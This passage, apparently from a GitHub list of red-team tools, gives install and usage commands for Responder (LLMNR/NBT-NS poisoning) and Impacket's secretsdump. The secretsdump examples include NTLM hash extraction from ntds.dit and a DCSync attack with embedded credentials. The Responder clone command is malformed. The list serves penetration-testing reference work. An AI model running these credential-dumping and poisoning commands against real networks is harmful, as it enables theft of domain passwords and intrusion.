 **Install:** 

```bash
git clone https://github.com/SpiderLabs/Responder#usage
cd Responder
```

**Usage:** 

```bash
# Running the tool
./Responder.py [options]

# Typical usage
./Responder.py -I eth0 -wrf
```

Full usage information can be found [here](https://github.com/SpiderLabs/Responder#usage).

![image](https://user-images.githubusercontent.com/100603074/210266150-b9cbd4a0-d07b-435a-8fa9-bc0b88d2c6ae.png)

*Image used from https://www.4armed.com/blog/llmnr-nbtns-poisoning-using-responder/*

### [🔙](#tool-list)[secretsdump](https://github.com/fortra/impacket/blob/master/examples/secretsdump.py)

A utility that is part of the Impacket library that can be used to extract password hashes and other secrets from a Windows system. 

It does this by interacting with the Security Account Manager (SAM) database on the system and extracting the hashed passwords and other information, such as:

- Password hashes for local accounts
- Kerberos tickets and keys
- LSA Secrets

**Install:** 

```bash
python3 -m pip install impacket
```

**Usage:** 

```bash
# Extract NTLM hashes with local files
secretsdump.py -ntds /root/ntds_cracking/ntds.dit -system /root/ntds_cracking/systemhive LOCAL

# DCSync attack and dump the NTLM hashes of all domain users.
secretsdump.py -dc-ip 10.10.10.30 MEGACORP.LOCAL/svc_bes:Sheffield19@10.10.10.30
```

![image](https://user-images.githubusercontent.com/100603074/210266110-8f60d6e8-009a-4dea-9e33-8a712aeaf2ac.png)

*Image used from https://riccardoancarani.github.io/2020-05-10-hunting-for-impacket/#secretsdumppy*

### [🔙](#tool-list)[evil-winrm](https://github.com/Hackplayers/evil-winrm)
